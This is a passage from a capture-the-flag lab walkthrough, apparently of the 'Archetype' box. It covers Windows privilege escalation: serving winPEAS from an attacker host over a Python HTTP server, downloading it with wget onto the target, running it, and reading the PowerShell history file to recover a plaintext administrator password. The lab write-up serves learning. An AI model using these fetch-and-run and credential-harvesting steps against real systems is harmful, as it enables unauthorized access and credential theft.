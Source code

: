 ### 🚀 Privilege Escalation
We are in the phase of the hack in which our goal is to obtain root.  The tool winPEAS64.exe will be the tool we use to find possible escalation paths.  We will once again use the Python HTTP server to run it on the target computer.

`python3 -m http.server 80`

We’ll use wget again to have the target machine download winPEAS.

`wget http://10.10.14.9/winPEASx64.exe -outfile winPEASx64.exe`

We can execute the binary.  So much simpler to do with the remote shell.

`PS C:\Users\sql_svc\Downloads> .\winPEASx64.exe`

Warning:  the output is long and can feel a bit overwhelming to go through.  Below is a list to help put the output into context

🔍 What winPEAS Looks For:
- Misconfigurations that allow escalation (e.g., unquoted service paths, weak permissions)
- Service issues (e.g., services running as SYSTEM with writable binaries)
- Credential leaks in memory, files, or registry
- Token privileges (SeImpersonatePrivilege, SeDebugPrivilege, etc.)
- Auto-run executables and scheduled tasks
- AlwaysInstallElevated settings
- DLL hijacking opportunities
- Interesting files and user activity

While there are other possibilities of attack, we are working in a user account with system privileges, so the quickest path may be to check history for frequently accessed files or executed commands.  `ConsoleHost_history.txt` stands out in this regard.  It’s located in `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\`.  We navigate to the folder and read the contents.

type ConsoleHost_history.txt

And behold ..... 

`net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dmln!!`

We have found the administrator password.  But how can we use this credential?  Looking back on our initial nmap scan, there’s no apparent way to take advantage of the administrator credential we found.  Here’s the rundown:

#### 🚫 No GUI or Remote Shell Access Available

| Service | Status | Notes |
|---------|--------|-------|
| **RDP (port 3389)** | ❌ Closed | Confirmed via `nmap` scan |
| **SSH** | ❌ Not applicable | Windows does not use SSH by default |
| **WinRM (5985/5986)** | ❌ Not open | So `evil-winrm` was not viable |
| **Telnet** | ❌ Not enabled | Not a common vector in modern boxes |

---

